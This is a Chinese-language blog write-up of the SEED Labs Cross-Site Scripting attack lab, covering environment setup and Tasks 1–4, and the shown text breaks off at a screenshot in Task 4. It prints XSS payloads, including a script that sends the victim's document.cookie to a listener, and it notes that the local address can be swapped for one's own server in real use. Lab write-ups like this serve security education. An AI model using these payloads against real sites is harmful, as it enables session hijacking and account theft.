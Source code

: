 ```yaml
---
layout: protected
title: "Cross-Site Scripting (XSS) Attack Lab"
date: 2024-04-26
categories: [SEED-Labs, Web-Security]
tags: [XSS]
---
```


# Cross-Site Scripting (XSS) Attack Lab

# Lab Setup

我用的是mac M2芯片，所以要去官网下载arm64版本，然后启动docker。浏览器使用的是84版Chrome。

需要在/etc/hosts中配置域名，虽然我用我自己的电脑这么做不是很安心，然后把梯子关了才能正确访问，可能是因为vpn软件会绕过本机的DNS解析方式。

# Task 1: Posting a Malicious Message to Display an Alert Window

在brief description中输入一条XSS脚本。

```html
<script>alert(1)</script>
```

# Task 2: Posting a Malicious Message to Display Cookies

把XSS脚本换成：

```html
<script>alert(document.cookie);</script>
```

# Task 3: Stealing Cookies from the Victim’s Machine

这个task就是使用DOM API让victim发送自己的cookie，这里我的mac监听10.9.0.1端口什么都收不到，tcpdump可以看到有tcp连接但是没有回应，所以我直接把脚本改成发到本地，在实际应用时改称自己的服务器地址就好：

```html
<script>document.write('<img src=http://127.0.0.1:5555?c=' + escape(document.cookie) + ' >'); </script>
```

# Task 4: Becoming the Victim’s Friend

抓包看一下加好友的请求：

![Untitled](/assets/img/2024-04-26-Cross-Site Scripting (XSS) Attack Lab/Untitled.png)
